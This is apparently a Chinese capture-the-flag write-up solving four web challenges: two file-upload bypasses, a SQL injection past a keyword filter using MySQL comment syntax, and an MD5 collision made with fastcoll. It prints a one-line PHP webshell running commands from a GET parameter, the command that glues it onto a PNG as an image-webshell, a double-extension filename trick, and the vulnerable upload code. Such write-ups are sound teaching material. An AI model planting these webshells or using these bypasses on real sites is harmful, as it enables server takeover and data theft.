

# 不一样的上传系统

与预选赛题目一样，将大马`php_mof SHELL.pHp.jpg`压缩成zip上传，即可通过大马获取flag。

# 简单文件上传

要求上传一个图片，并且大小存在限制。尝试后发现后台是通过文件头来判断文件类型的，因此可以上传一个图片马：

## 0x01

构造一个一句话`webshell.php`，内容如下：

```php
<?php @system($_GET["cmd"]);?>
```

## 0x02

准备一张正常图片`realpng.png`，使用命令`cat realpng.png webshell.php > payload.php.php`之所以要写两遍后缀是为了绕过后台替换第一个php为图片格式的后缀。

## 0x03

上传`payload.php.php`返回上传路径：


## 0x04

通过一句话找到flag。

列出目录下的文件，发现存在一个奇怪的文件：


读取该文件内容得到flag：


这里提供上传逻辑代码，供复现使用：

```php+HTML
<html>
<body>
<form action="index.php" method="post" enctype="multipart/form-data">
<label for="file">Filename:</label>
<input type="file" name="file" id="file" />
<input type="hidden" name="Upload" id="Upload" value = "Upload">
<br/>
<input type="submit" name="submit" value="Submit" />
</form>
</body>
</html>
<?php
if(isset($_POST[ 'Upload' ])){
    $html = "";
    $token = sha1($_SERVER['REMOTE_ADDR']);
    $target_path  = "uploads/".$token."/";
    if (!file_exists($target_path)){
        mkdir ($target_path,0755,true);
    }
    $uploaded_name = $_FILES[ 'file' ][ 'name' ];
    $uploaded_tpye = $_FILES[ 'file' ][ 'type' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'file' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'file' ][ 'tmp_name' ];
    $type = ".".substr(mime_content_type($uploaded_tmp),-3);
    $_FILES[ 'file' ][ 'name' ] = preg_replace("/\..../",$type,$uploaded_name,1);
    $target_path .= basename($_FILES[ 'file' ][ 'name' ]);
    if($uploaded_size>100000)
    {
        echo '<pre>Your file is too big.</pre>';
        exit;
    }
    if(getimagesize($uploaded_tmp))
    {

        if(!move_uploaded_file($uploaded_tmp,$target_path))
        {
            $html .= '<pre>Your image was not uploaded.</pre>';
        }
        else {
            $html .= "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        $html .= '<pre>It is not a image</pre>';
    }
    echo $html;
}
?>
```

# 新的新闻搜索

word字段存在注入点，但是使用union注入时会将union，select等的关键字的最后一个字母html编码，想到使用`/*!union*/`,`/*!select*/`绕过：


查库，得到news：


查表，得到admin表：



查列，得到flag列


查记录，得到flag：


# MD5碰撞

要求`$_POST['param1']!==$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])`，强网杯原题，参考[writeup](https://xz.aliyun.com/t/2232)。

指定param1和param2相同的开头，这里以"1"为例:

```bash
echo '1'>init.txt
```

接着使用fastcoll生成具有相同md5的文件：

```bash
λ fastcoll_v1.0.0.5.exe -p init.txt -o 1.txt 2.txt
MD5 collision generator v1.5
by Marc Stevens (http://www.win.tue.nl/hashclash/)

Using output filenames: '1.txt' and '2.txt'
Using prefixfile: 'init.txt'
Using initial value: b012cf77f9677e37eea923017fc5e83e

Generating first block: ..
Generating second block: S00....
Running time: 0.641 s
```

将1.txt和2.txt内容进行编码后发送即可的得到flag。

提供代码方便复现：

```php
if($_POST['param1']!==$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
    die("flag!");
}
```

